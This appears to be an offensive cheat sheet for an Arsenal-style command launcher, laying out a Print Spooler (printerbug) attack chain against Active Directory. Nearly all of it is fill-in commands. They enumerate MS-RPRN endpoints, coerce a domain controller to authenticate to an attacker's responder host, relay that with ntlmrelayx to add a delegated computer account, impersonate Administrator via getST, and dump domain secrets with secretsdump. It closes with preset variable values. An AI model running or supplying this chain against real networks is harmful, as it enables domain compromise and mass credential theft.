# Spooler service abuse

% printerbug, spooler service abuse, active directory, ad

## Finding Spooler services listening
```
rpcdump.py <domain>/<user>:'<password>'@<dc> | grep MS-RPRN
```

## Finding Spooler services anonymous
```
rpcdump.py <dc> | grep -A 6 MS-RPRN
```

## dementor (https://github.com/NotMedic/NetNTLMtoSilverTicket)
```
dementor.py -d <domain> -u <user> -p <pass> <responder_ip> <ip>
```

## printerbug (https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
```
printerbug.py '<domain>/<user>:<password>'@<ip> <responder_ip>
```

## ntlmrelayx add computer
```
ntlmrelayx -t ldaps://<dc> -smb2support --remove-mic --add-computer <computer_name> <computer_password> --delegate-access
```

## use silver ticket
```
getST.py -spn host/<dc> -impersonate Administrator -dc-ip <dc_ip> <domain>/'<computer_name>$':<computer_password>
```

## secret dump with kerberos
```
secretsdump -k <dc>
```

=user:anonymous
=pass:anonymous
=computer_name:arsenal
=dc:DC01.domain.local
=computer_password:123soleil

